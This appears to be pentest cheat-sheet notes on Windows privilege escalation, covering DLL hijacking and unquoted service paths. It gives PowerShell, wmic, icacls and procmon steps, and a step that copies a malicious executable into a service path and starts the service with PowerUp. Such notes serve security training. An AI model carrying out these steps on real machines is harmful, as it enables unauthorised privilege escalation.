 # DLL Hijacking

- Enumerate services
- Check permissions
- Identify missing DLL with procmon

```powershell
# enumerate services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# get permissions
icacls.exe <path>
```

- In procmon.exe
```
Filter > 
Process Name is <executable name>
Result contains NOT FOUND
Path contains dll
```

# Unquoted service path

>We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.
>Tool : https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

# exemple
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
Name                                       PathName                                                                          
BetaService                                C:\Users\steve\Documents\BetaServ.exe                                             
GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

# verifu permissions on the repository
icacls <path>

# Current.exe is a malicious file
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
Start-Service GammaService

# with PowerUp
. .\PowerUp.ps1
Get-UnquotedService
```
